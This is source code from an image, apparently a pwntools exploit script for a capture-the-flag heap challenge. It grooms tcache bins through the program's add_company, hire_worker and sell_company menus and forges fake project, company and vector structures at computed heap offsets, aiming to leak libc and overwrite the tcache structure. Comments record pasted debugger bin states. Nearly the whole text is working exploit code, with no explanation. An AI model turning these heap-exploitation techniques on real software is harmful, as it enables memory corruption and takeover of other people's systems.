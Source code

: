 ```python
add_project(b"llk4 ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk4 ",b"pwn ",str(i+80).encode(),str(30).encode())

hire_worker(b"llk4 ",b"pwn ",p64(stack)+0x28*b"k",str(0).encode())

elapse_week()

sell_company(b"llk4 ")

#0x50 [  3]: 0x5fc4408c4530 —▸ 0x5fc4408c2850 —▸ 0x5fc4408c46c0 ◂— 0

add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

#0x50 [  4]: 0x584af5e755c0 —▸ 0x584af5e73600 —▸ 0x584af5e74850 —▸ 0x584af5e746c0 ◂— 0

sell_company(b"wait2 ") 
sell_company(b"wait3 ") 
sell_company(b"wait1 ")   
sell_company(b"wait4 ")   

p.recv(timeout=5)

# cober fake project 1 , it need fake workers vector  and fake company
payload=p64(0x18090+heap)+p64(0x1d)+p64(0x1e)+p64(0x13580+heap)+b"0"*0x8+p64(heap+0x13550)+p64(heap+0x13558)+p64(heap+0x13558)
fake_project_1=payload+p64(heap+0x17ec0)[:6]  
add_company(fake_project_1+b" ",str(1001).encode())  

# fake project 1's  fake workers vector 
fake_project_1_fake_workers_vector=( p64(heap+0x17c60) ).ljust(0x20,b"a") 
add_company(fake_project_1_fake_workers_vector+b" ",str(1002).encode())  

#  fake company's fake vector project
fake_vector_project=(p64(0)+p64(0)+p64(heap+0x14850)+p64(heap+0x18010)).ljust(0x20,b"a")
add_company(fake_vector_project+b" ",str(1003).encode())  

# fake project 1's  fake company
payload=p64(target_leak_libc_chunk)+p64(0x40)+p64(0x40)+p64(0x13580+heap)+b"0"*0x10
fake_company=p64(0)+p64(0)+payload+p64(heap+0x13530)+p64(heap+0x13540)+p64(heap+0x13540)
add_company(fake_company+b" ",str(1004).encode())  

context(os="linux",arch="amd64",log_level="debug")
# fake project 2   ,will construt vector as tcache_struct 
payload=p64(0x18060+heap)+p64(0x1d)+p64(0x1e)+p64(0x13580+heap)+b"0"*0x8+p64(0x100+heap)+p64(0x108+heap)+p64(0x110+heap)
fake_project_2=payload+p64(heap+0x17ec0)[:6]  
add_company(fake_project_2+b" ",str(1005).encode()) 

# fake project 2  string name
add_company(b"project_2_project_2_name_name ",str(1006).encode())
# fake project 1  string name
add_company(b"project_1_project_1_name_name ",str(1006).encode())
# fake company string name
add_company(b"company_name_company_name ",str(1006).encode())

# add_company(p64(stack)+p64(0),str(1007).encode())  

# add_company(p64(0),str(1007).encode()) # padding
```